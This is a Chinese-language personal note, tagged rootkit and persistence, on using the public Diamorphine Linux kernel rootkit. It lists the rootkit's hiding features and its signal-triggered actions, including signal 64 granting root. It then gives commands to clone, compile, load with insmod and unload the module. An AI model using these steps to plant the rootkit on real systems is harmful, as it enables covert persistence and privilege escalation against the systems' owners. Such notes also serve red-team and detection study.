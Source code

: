 ```yaml
---
{"created":"2024-12-01T19:34:40.454+08:00","tags":["rootkit","进程隐藏","权限维持"],"Type":"Note","dg-publish":true,"aliases":["海洛因","Diamorphine"],"permalink":"/26-工具使用/Diamorphine使用/","dgPassFrontmatter":true,"noteIcon":"2"}
---
```


项目地址 https://github.com/m0nad/Diamorphine

## 1. Features 特征
- 加载后，模块开始不可见
- 通过发送信号隐藏/取消隐藏任何进程 31
- 发送信号 63（到任何 pid）使模块变得（不可见）可见
- 发送信号 64（到任何 pid）使给定的用户成为 root
- 以 MAGIC_PREFIX 开头的文件或目录将变得不可见

发送信号
```
kill -63 <pid>
```
## 2. 安装
验证内核是否为 2.6.x/3.x/4.x/5.x

```
uname -r
```

Clone the repository 克隆存储库

```
git clone https://github.com/m0nad/Diamorphine
```

Enter the folder 进入文件夹

```
cd Diamorphine
```

Compile 编译

```
make
```

Load the module(as root) 加载模块（以 root 身份）

```
insmod diamorphine.ko
```
## 3. Uninstall 卸载
模块开始时不可见，要删除您需要使其可见

```
kill -63 0
```

然后删除模块（作为 root）

```
rmmod diamorphine
```
